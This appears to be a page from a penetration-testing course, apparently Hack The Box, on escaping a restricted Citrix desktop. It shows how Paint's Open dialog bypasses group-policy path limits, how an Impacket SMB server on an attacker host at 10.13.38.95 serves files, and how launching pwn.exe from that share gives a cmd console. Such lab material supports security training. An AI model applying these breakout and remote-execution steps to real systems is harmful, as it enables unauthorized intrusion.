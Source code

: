 ```
        
        There are many techniques which can be used for breaking out of a Citrix environment. This section will not cover every possible scenario, but we will walk through the most common ways to perform a Citrix breakout.




                -Bypassing Path Restrictions


        
        When we attempt to visit C:\Users using File Explorer, we find it is restricted and results in an error. This indicates that group policy has been implemented to restrict users from browsing directories in the C:\ drive using File Explorer. In such scenarios, it is possible to utilize windows dialog boxes as a means to bypass the restrictions imposed by group policy. Once a Windows dialog box is obtained, the next step often involves navigating to a folder path containing native executables that offer interactive console access (i.e.: cmd.exe). Usually, we have the option to directly enter the folder path into the file name field to gain access to the file.


        Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the operating system. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc. We will cover using MS Paint as an example for this section.

        Run Paint from start menu and click on File > Open to open the Dialog Box.

        With the windows dialog box open for paint, we can enter the UNC path \\127.0.0.1\c$\users\pmorgan under the File name field, with File-Type set to All Files and upon hitting enter we gain access to the desired directory.




                --Accessing SMB share from restricted environment

        
        Having restrictions set, File Explorer does not allow direct access to SMB shares on attacker machine. However, by utilizing the UNC path within the Windows dialog box, it's possible to circumvent this limitation. This approach can be employed to facilitate file transfers from a different computer.


        Start a SMB server from the attacker machine using Impacket's smbserver.py script.
        root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)


        Back in the Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear. Within this Windows dialog box associated with Paint, input the UNC path as \\10.13.38.95\share into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files." Upon pressing the "Enter" key, entry into the share is achieved.


        Due to the presence of restrictions within the File Explorer, direct file copying is not viable. Nevertheless, an alternative approach involves right-clicking on the executables and subsequently launching them. Right-click on the pwn.exe binary and select Open, which should prompt us to run it and a cmd console will be opened.



```